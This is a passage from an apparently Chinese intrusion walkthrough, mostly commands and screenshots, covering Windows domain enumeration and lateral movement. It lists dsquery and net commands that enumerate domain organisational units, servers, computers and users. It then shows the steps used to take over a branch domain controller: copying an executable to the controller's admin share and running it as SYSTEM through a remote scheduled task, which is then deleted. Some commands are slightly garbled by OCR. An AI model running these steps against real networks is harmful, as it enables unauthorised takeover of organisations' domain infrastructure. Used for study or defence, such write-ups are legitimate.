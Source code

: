 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOZ6YDLRFqo0tDtnfrsXM1cW8GDVh4ZmPYQHlLSYvdhY8r9M29QHv6GA/640?wx_fmt=png)

**5.21 列出域内组织**

dsqueryou

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOWsrN9icic7zsicgyhVlWPdfKHhHrdxIGibzFN4HNL6z9LMpzpqHvT8mjnA/640?wx_fmt=png)

**5.22 列出所有域服务器**

```
dsquery server && net time /domain
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOsJHytzd9icO5XzG39frw12Hib7UWiaiayMwpQq11Ogicj5t1Xsv0j5wO8sQ/640?wx_fmt=png)

**5.23 列出域内的所有计算机名**

```
dsquery computer domainroot -limit 65535 && net group "domaincomputers" /domain
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOcRzLfVtX8YUxgN8EibuCYAqTdaswtzicYsTHWAar0VjpznRGVkmhlxMw/640?wx_fmt=png)

**5.24 列出域内的所有用户**

```
dsquery user domainroot -limit 65535 && net user /domain
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPO0QohtARyeDYYibMumCXW554vaiaF9NIn9IAuhs7tt3crkvIGVPB2U7ZQ/640?wx_fmt=png)  

**5.25 获取广州支部域控权限**

```
copy666.exe \\12dc2\c$
```

设置任务时间以系统权限启动  

```
schtasks /create /s 10.10.2.129  /ru "SYSTEM"/tn addexe /sc DAILY /st 20:38:00 /tr c:\\666.exe /F
```

启动任务  

```
schtasks /run /s 10.10.2.129 /tn addexe /i
```

查询任务  

```
schtasks.exe /query /s 10.10.2.129 /tn addexe
```

删除命令  

```
schtasks/delete /s 10.10.2.129 /tn addexe /f
```
